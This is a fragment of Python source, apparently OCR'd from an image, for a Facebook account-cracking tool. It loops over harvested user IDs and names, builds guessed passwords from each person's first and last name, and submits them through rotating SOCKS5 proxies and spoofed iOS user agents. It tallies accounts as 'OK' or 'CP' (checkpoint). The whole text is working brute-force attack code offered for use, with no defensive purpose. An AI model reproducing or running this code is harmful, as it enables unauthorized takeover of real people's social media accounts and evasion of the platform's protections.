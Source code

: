 					for user in fo:
						ids,names = user.split('|')
						passlist = plist
						if mthd in ['1','01']:
							crack_submit.submit(ffb,ids,names,passlist)
						elif mthd in ['2','02']:
							crack_submit.submit(mmm,ids,names,passlist)
						else:
							crack_submit.submit(api,ids,names,passlist)
				print('\033[1;37m')
				linex()
				print(' The process has completed')
				print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
				linex()
				input(' Press enter to back ')
				os.system('python axi.py')
			elif rifat in ['2','02']:
				rifat1()
			elif rifat in ['3','03']:
				bd()
			elif rifat in ['4','04']:
				chos()
			elif rifat in ['5','05']:
				zong()
			elif rifat in ['6','06']:
				cinc()
			elif rifat in ['7','07']:
				os.system('xdg-open https://www.facebook.com/profile.php?id=100087968230843');menu()
			elif rifat in ['8','08']:
				exit('')
			else:
				exit(' Option not found in menu...')
		
def mmm(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write(f'\r\x1b[1;97m[\033[1;97mRuman king-ðŸ‘‘-\033[1;97m] %s|\x1b[1;92mOK:-%s \x1b[1;97m\r'%(loop,len(oks))),
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua = random.choice(ua_ios)
			nip=random.choice(prox)
			proxs= {'http': 'socks5://'+nip}
			